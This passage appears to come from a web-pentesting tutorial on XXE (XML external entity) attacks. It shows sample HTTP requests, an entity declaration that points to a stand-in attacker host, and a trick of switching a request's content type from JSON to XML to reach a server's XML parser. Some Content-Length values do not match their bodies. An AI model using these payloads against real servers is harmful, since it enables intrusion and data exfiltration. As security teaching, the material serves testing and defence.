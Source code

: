 ```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

And subsequently we can add our XXE attack string but ofcourse only if the XML input is accepted and processed. 

```xml
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

<!ENTITY xxe SYSTEM 'http://f2g9j7hhkax.web-attacker.com'>
```

## JSON to XXE

Most web applications these days accept JSON as input and it seems like this covers most entry points for XXE pretty well since if we can't work with XML files; it will be really hard to execute an attack that pivots on the XML format. Or will it? It may not be as foolproof as many people think it is. 

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee)

According to hacktricks we can simple change the content type header. This will take advantage of the fact that some servers have XML processors built into them by default and if the developer never disabled them, we can use those to yet insert XXE attack vectors. Let's look at the example hacktricks gave us. 

```xml
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

We can simply change the content type and test if this still works and if the content will be processed by the webserver. 

```xml
Content-Type: application/json;charset=UTF-8

Will change to

Content-Type: application/xml;charset=UTF-8
```
